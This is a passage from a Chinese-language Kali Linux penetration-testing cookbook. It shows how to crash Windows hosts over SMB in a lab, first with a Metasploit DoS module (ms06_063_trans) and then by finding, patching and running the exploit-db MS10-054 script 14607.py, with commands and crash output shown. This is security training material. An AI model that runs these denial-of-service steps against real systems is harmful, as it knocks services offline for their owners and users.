   auxiliary/dos/windows/smb/rras_vls_null_deref               2006-06-14       normal  Microsoft RRAS InterfaceAdjustVLSPointers NULL Dereference   
   auxiliary/dos/windows/smb/vista_negotiate_stop                               normal  Microsoft Vista SP0 SMB Negotiate Protocol DoS 
```

在查询`/ dos / windows / smb`的相对路径后，返回的唯一结果是此目录中的 DoS 模块。 目录组织良好，可用于有效地搜索与特定平台或服务相关的漏洞。 一旦我们决定使用哪个漏洞，我们可以使用`use`命令和模块的相对路径来选择它：

```
msf > use auxiliary/dos/windows/smb/ms06_063_trans 
msf  auxiliary(ms06_063_trans) > show options

Module options (auxiliary/dos/windows/smb/ms06_063_trans):

   Name   Current Setting  Required  Description   ----   
   ---------------  --------  ----------   
   RHOST                   yes       The target address   
   RPORT  445              yes       Set the SMB service port
```

一旦选择了模块，`show options`命令可用于确定和/修改扫描配置。 此命令会显示四个列标题，包括`Name`, `Current Setting`, `Required`, 和 `Description`。 `Name`列表示每个可配置变量的名称。 `Current Setting`列列出任何给定变量的现有配置。 `Required`列表明任何给定变量是否需要值。 `Description`列描述每个变量的函数。 可以使用`set`命令并通过提供新值作为参数，来更改任何给定变量的值：

```
msf  auxiliary(ms06_063_trans) > set RHOST 172.16.36.134 
 => 172.16.36.134 
 msf  auxiliary(ms06_063_trans) > show options

Module options (auxiliary/dos/windows/smb/ms06_063_trans):

   Name   Current Setting  Required  Description   
   ----   ---------------  --------  ----------   
   RHOST  172.16.36.134    yes       The target address   
   RPORT  445              yes       Set the SMB service port 
```

在提供的示例中，`RHOST`值更改为我们打算扫描的远程系统的 IP 地址。 更新必要的变量后，可以使用`show options`命令再次验证配置。 一旦验证了所需的配置，可以使用`run`命令启动模块：

```
msf  auxiliary(ms06_063_trans) > run

[*] Connecting to the target system... 
[*] Sending bad SMB transaction request 1... 
[*] Sending bad SMB transaction request 2... 
[*] Sending bad SMB transaction request 3... 
[*] Sending bad SMB transaction request 4... 
[*] Sending bad SMB transaction request 5... 
[*] Auxiliary module execution completed 
```

在执行 Metasploit DoS 辅助模块之后，返回的一系列消息表明已经执行了一系列恶意 SMB 事务，并且返回表示模块执行完成的最终消息。 该漏洞的成功可以通过查看 Windows XP 系统来验证，它已经崩溃，现在显示 BSOD：


### 工作原理

本练习中演示的 Metasploit DoS 辅助模块是缓冲区溢出攻击的示例。 一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。

## 6.11 使用 exploit-db 执行DoS 攻击

exploit-db 是针对所有类型的平台和服务的，公开发布的漏洞利用集合。 exploit-db 拥有许多可用于执行DoS攻击的漏洞。 这个特定的秘籍演示了如何在 exploit-db 中找到DoS漏洞，确定漏洞的用法，进行必要的修改并执行它们。

### 准备

为了使用 exploit-db 执行 DoS 攻击，你需要有一个运行漏洞服务的系统，它易受 Metasploit DoS 辅助模块之一的攻击。 所提供的示例使用 Windows XP 的实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。

### 操作步骤

在使用 exploit-db 执行 DoS 测试之前，我们需要确定哪些 DoS 漏洞可用。 可以在`http://www.exploit-db.com`在线找到全部的漏洞利用数据库。 或者，其副本也本地存储在 Kali Linux 文件系统中。 在`exploitdb`目录中有一个`files.csv`文件，其中包含所有内容的目录。 此文件可用于对关键字进行`grep`，来帮助定位可用的漏洞利用：

```
root@KaliLinux:~# grep SMB /usr/share/exploitdb/files.csv 
20,platforms/windows/remote/20.txt,"MS Windows SMB Authentication Remote Exploit",2003-04-25,"Haamed Gheibi",windows,remote,139 
1065,platforms/windows/dos/1065.c,"MS Windows (SMB) Transaction Response Handling Exploit (MS05-011)",2005-06-23,cybertronic,windows,dos,0 
4478,platforms/linux/remote/4478.c,"smbftpd 0.96 SMBDirListfunction Remote Format String Exploit",2007-10-01,"Jerry Illikainen",linux,remote,21 
6463,platforms/windows/dos/6463.rb,"MS Windows WRITE_ANDX SMB command handling Kernel DoS (meta)",2008-09-15,"Javier Vicente Vallejo",windows,dos,0
9594,platforms/windows/dos/9594.txt,"Windows Vista/7 SMB2.0 Negotiate Protocol Request Remote BSOD Vuln",2009-09-09,"Laurent Gaffie",windows,dos,0
```

在所提供的示例中，我们使用`grep`函数在`files.csv`文件中搜索包含 SMB 的任何 exploit-db 内容。 还可以通过将输出通过管道连接到另一个`grep`函数，并搜索附加项来进一步缩小搜索范围：

```
root@KaliLinux:~# grep SMB /usr/share/exploitdb/files.csv | grep dos 
1065,platforms/windows/dos/1065.c,"MS Windows (SMB) Transaction Response Handling Exploit (MS05-011)",2005-06-23,cybertronic,windows,dos,0 
6463,platforms/windows/dos/6463.rb,"MS Windows WRITE_ANDX SMB command handling Kernel DoS (meta)",2008-09-15,"Javier Vicente Vallejo",windows,dos,0 
9594,platforms/windows/dos/9594.txt,"Windows Vista/7 SMB2.0 Negotiate Protocol Request Remote BSOD Vuln",2009-09-09,"Laurent Gaffie",windows,dos,0 
12258,platforms/windows/dos/12258.py,"Proof of Concept for MS10-006 SMB Client-Side Bug",2010-04-16,"Laurent Gaffie",windows,dos,0 
12273,platforms/windows/dos/12273.py,"Windows 7/2008R2 SMB Client Trans2 Stack Overflow 10-020 PoC",2010-04-17,"Laurent Gaffie",windows,dos,0 
```

在提供的示例中，我们依次使用两个独立的`grep`函数，来搜索与 SMB 服务相关的任何 DoS 漏洞：

```
root@KaliLinux:~# grep SMB /usr/share/exploitdb/files.csv | grep dos | grep py | grep -v "Windows 7" 
12258,platforms/windows/dos/12258.py,"Proof of Concept for MS10-006 SMB Client-Side Bug",2010-04-16,"Laurent Gaffie",windows,dos,0 
12524,platforms/windows/dos/12524.py,"Windows SMB2 Negotiate Protocol (0x72) Response DOS",2010-05-07,"Jelmer de Hen",windows,dos,0 
14607,platforms/windows/dos/14607.py,"Microsoft SMB Server Trans2 Zero Size Pool Alloc (MS10-054)",2010-08-10,"Laurent Gaffie",windows,dos,0 
```

我们可以继续缩小搜索结果，使其尽可能具体。 在提供的示例中，我们查找了 SMB 服务的任何 Python DoS 脚本，但是我们寻找的不是 Windows 7 平台的。 `gre`p中的`-v`选项可用于从结果中排除内容。 通常最好将所需的漏洞利用复制到另一个位置，以便不会修改 exploit 数据库目录的内容：

```
root@KaliLinux:~# mkdir smb_exploit 
root@KaliLinux:~# cd smb_exploit/ 
root@KaliLinux:~/smb_exploit# cp /usr/share/exploitdb/platforms/windows/ dos/14607.py /root/smb_exploit/ 
root@KaliLinux:~/smb_exploit# ls 14607.py 
```

在提供的示例中，我们为脚本创建一个新目录。 然后从绝对路径复制脚本，该路径可以由 exploit-db 的目录位置和`files.csv`文件中定义的相对路径推断。 一旦重新定位，就可以使用`cat`命令从上到下读取脚本，然后将脚本的内容传递给`more`工具：

```
root@KaliLinux:~/smb_exploit# cat 14607.py | more ?

#!/usr/bin/env python 
import sys,struct,socket 
from socket import *

if len(sys.argv)<=2:   
    print '############################################################### ########'   
    print '#   MS10-054 Proof Of Concept by Laurent Gaffie'   
    print '#   Usage: python '+sys.argv[0]+' TARGET SHARE-NAME (No backslash)'   
    print '#   Example: python '+sys.argv[0]+' 192.168.8.101 users'   
    print '#   http://g-laurent.blogspot.com/'   
    print '#   http://twitter.com/laurentgaffie'   
    print '#   Email: laurent.gaffie{at}gmail{dot}com'   
    print '############################################################### ########\n\n'   
    sys.exit() 
```

与 NSE 脚本和 Metasploit 辅助模块不同，漏洞数据库中的脚本没有标准化格式。 因此，使用漏洞有时会很棘手。 尽管如此，查看脚本内容中的为注释或使用说明通常是有帮助的。 在提供的示例中，我们可以看到，使用情况列在脚本的内容中，如果未提供适当数量的参数，也会将其打印给用户。 评估之后，可以执行脚本。

```
root@KaliLinux:~/smb_exploit# ./14607.py 
./14607.py: line 1: ?#!/usr/bin/env: No such file or directory 
import.im6: unable to open X server `' @ error/import.c/ 
ImportImageCommand/368\. 
from: can't read /var/mail/socket 
./14607.py: line 4: $'\r': command not found 
./14607.py: line 5: syntax error near unexpected token `sys.argv' 
'/14607.py: line 5: `if len(sys.argv)<=2: 
```

但是，在尝试执行脚本后，我们可以看到出现了问题。 由于缺乏标准化，并且由于一些脚本只是概念证明，通常需要对这些脚本进行调整：

```
?#!/usr/bin/env python 
import sys,struct,socket 
from socket import * 
```

在脚本错误出现后，我们需要返回到文本编辑器，并尝试确定错误的来源。 第一个错误表明，在脚本开头列出的 Python 解释器的位置存在问题。 这必须改变为指向 Kali Linux 文件系统中的解释器：

```
#!/usr/bin/python 
import sys,struct,socket 
from socket import * 
```

在每个问题解决后，尝试再次运行脚本通常是个好主意，有时，修复单个问题会消除多个执行错误。 这里，在更改 Python 解释器的位置后，我们可以成功运行脚本：

```
root@KaliLinux:~/smb_exploit# ./14607.py 172.16.36.134 users 
[+]Negotiate Protocol Request sent 
[+]Malformed Trans2 packet sent 
[+]The target should be down now 
```

当脚本运行时，会返回几个消息来标识脚本执行的进度。 最后一条消息表明恶意的载荷已传送，服务器应该已经崩溃。 该脚本的成功执行可以通过返回 Windows 服务器来验证，它现在已经崩溃，并显示了 BSOD：


### 工作原理

本练习中演示的 exploit-db DoS 脚本是缓冲区溢出攻击的示例。 一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。